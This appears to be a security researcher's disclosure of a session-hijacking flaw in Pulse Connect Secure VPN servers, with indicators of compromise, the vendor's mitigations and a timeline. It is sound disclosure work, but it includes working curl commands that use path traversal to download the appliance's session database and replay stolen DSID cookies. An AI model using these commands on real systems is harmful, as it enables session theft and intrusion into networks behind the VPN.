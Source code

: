 Session hijacking in PulseSecure Server
=======================================
Depending on the configuration, all versions are affected including latest release 9.0R3.4.

See the vendor's response for the gory configuration details.


Disclaimer
----------
**Please note that on a fully patched Pulse server this vulnerability is not exploitable by itself and is only useful under very specific circumstances.**
For this exploit to work the endpoint needs to have been previously compromised. A good candidate for this first step is CVE-2019-11510 that permits arbitrary file reading on the server before 9.0R3.4. **For later versions, another exploit is missing.**

This vulnerability could be related to CVE-2019-11540, which is inconsistently detailed:

* the researcher lists it as a [cross-site script inclusion on the cookie](https://devco.re/blog/2019/09/02/attacking-ssl-vpn-part-3-the-golden-Pulse-Secure-ssl-vpn-rce-chain-with-Twitter-as-case-study/)
* the CVE DB refers to it as a [session bypass](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11540)


Details
-------
There are several ways to authenticate to a Pulse Connect Secure server:

* traditional user/password authentication
* using a certificate (usually safely stored on a hardware token)

Assuming an attacker has read access to the server (e.g. using CVE-2019-11510 or some other form of arbitrary file read that may or may not be discovered in the future) and user/password login is in place, the attacker just needs to read plaintext passwords or hashes from the system and reuse these to authenticate semit-legitimely to the server. These passwords are found in the various data.mdb files of the Pulse server.

When using certificate authentication (or if the hashes couldn't be cracked) there's an alternate way that lets an attacker log to the appliance.
Because Pulse is a SSL VPN, the users' sessions are stored in a cookie named DSID that is granted by the server after the client authenticates.

An attacker getting access to valid cookies can try to reuse them to authenticate to web server and find all current valid sessions on the HTTP service:
```bash
curl --path-as-is -s -k "https://example.com/dana-na/../dana/html5acc/guacamole/../../../../../../../data/runtime/mtmp/lmdb/randomVal/data.mdb?/dana/html5acc/guacamole/" > randomVal_data.mdb
for cookie in $(strings randomVal_data.mdb | grep randomVal | cut -b 10- | grep '.\{32\}' | sort -u); do curl -i -k "https://example.com/" --cookie "DSID=$cookie" -L 2>&1 | grep Welcome; done
```

The cookie is reusable for a web session hijacking:

![Web session hijacking](./session_web.png)

But more worryingly, from this HTTP service the attacker can then try to connect to the VPN using the Java client:

![VPN session hijacking](./session_vpn.png)

This action is likely going to fail, because the user whose session is getting hijacked is probably already connected to the network.
But I have observed that if the client keepalive sent every second fails to reach the server (for instance due to a network timeout or the operating system going to sleep) the attacker may then hijack the user's network session and connect to the network behind the VPN.

I have successfully tested it in versions 9.0R3.2 and 9.0R3.4 which supposedly fixed a session hijacking vulnerability (CVE-2019-11540).

I think this is a security issue:

* sessions should be tied to an IP address, or at least to a subnet
* sessions should be forcibly closed by the server if the client keep-alive fails

This vulnerability hence permits hardware token bypass on an otherwise hardened setup that the arbitrary file read alone couldn't have completely defeated.


Indicators of compromise
------------------------
These actions from the attacker will likely leave a lot of discriminating failure logs because the attacker can not tell if the user's session has timed out yet and needs to repeatedly try to hijack the session until it works.

In case of a failure to connect:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 1 seconds, with 0 bytes read (in 1 chunk) and 0 bytes written (in 2 chunks)"         // fails because user is still connected
```

In case of a successful connection:
```
    "[yy.yy.yy.yy] xxx - Remote address for user xxx changed from yy.yy.yy.yy to zz.zz.zz.zz"
    "[zz.zz.zz.zz] xxx - Max session timeout for xxxx (session:00000000)."
    "[zz.zz.zz.zz] xxx - Closed connection to TUN-VPN port 443 after 121 seconds, with 1420 bytes read (in 1 chunk) and 575 bytes written (in 3 chunks)"  // hijack has succeeded until the session timed out server-side (2 minutes)
```


Editor response
---------------
Below is the vendor's response, which is quite satisfying: they are aware of the problem, and have rolled configuration options to prevent it.

That being said you do have to make sure your appliance is properly configured because as far as I can tell these are not used by default, at least not when upgrading the appliance from earlier versions.

> [...]
> We have made few improvement in our latest code and this issue can be mitigated with few configuration change.
> 
> 1. In the 9.0R3 or above, a new HTTPOnly session cookie option is available. This option will create a new session cookie with HTTPOnly attribute along with DSID session cookie. The new session cookie along with DSID will be needed to restore a user session.
> 
> In this case, attacker cannot replay the session even if they fetch the cookies from the appliance.
> 
> KB16127 - HTTPOnly and the Pulse Connect Secure (QID: 150045)
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB16127/
> 
> 2. We always recommend our customers to disable to Session Roaming option under the User Role. That will restrict the access to the attacker and they cannot login to the appliance.
> 
> KB29805 - Pulse Connect Secure: Security configuration best practices
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB29805/
> 
> 3. When the client does not communicate with the PCS, it will not immediately disconnect the session. After an ESP tunnel has been created, it will send keep-alive packets to the Pulse Connect Secure device to confirm that the device is accessible through ESP mode. If an ESP response is received, the Pulse or Network Connect client continues operating on the assumption that the ESP tunnel was successfully created. If the ESP tunnel is not successfully created, the client will send a keep-alive packet every one (1) second until the "ESP to SSL fallback time" is exceeded (by default, it is 15 seconds). When this time is exceeded, the Pulse or Network Connect client will fail back to SSL mode.
> 
> You can refer below KB for more details.
> 
> KB26667 - Encapsulating Security Payload (ESP) packet flow with Network Connect or Pulse client
> https://kb.pulsesecure.net/articles/Pulse_Secure_Article/KB26667/


Notes on the setup
------------------
Because Java plugin support has been dropped from browsers ages ago, getting a setup that could run the plugin was a bit painful. Here is most of the needed information to replicate it:
```
gquere@debian:~/Téléchargements$ cat /etc/debian_version
9.11
gquere@debian:~/Téléchargements$ md5sum google-chrome-stable_34.0.1847.137-1_amd64.deb
3cc7cd28bbb7bb3e5add19f27a6d0dda  google-chrome-stable_34.0.1847.137-1_amd64.deb
gquere@debian:~/Téléchargements$ md5sum libnss3_3.17.2-1.1+deb8u1_amd64.deb
4e459cf3591adc568d804f3369036938  libnss3_3.17.2-1.1+deb8u1_amd64.deb
gquere@debian:~/Téléchargements$ export LD_LIBRARY_PATH=./libnss/usr/lib/x86_64-linux-gnu/:./libnss/usr/lib/x86_64-linux-gnu/nss
gquere@debian:~/Téléchargements$ google-chrome-stable
```


Timeline
--------

* 2019-09-06: Vulnerability discovered
* 2019-09-09: Editor receives report
* 2019-09-17: Request ACK from editor
* 2019-10-15: Editor warned of imminent disclosure
* 2019-10-15: Partial disclosure to CERT-FR
* 2019-10-22: Editor ACK
* 2019-10-23: Editor answer
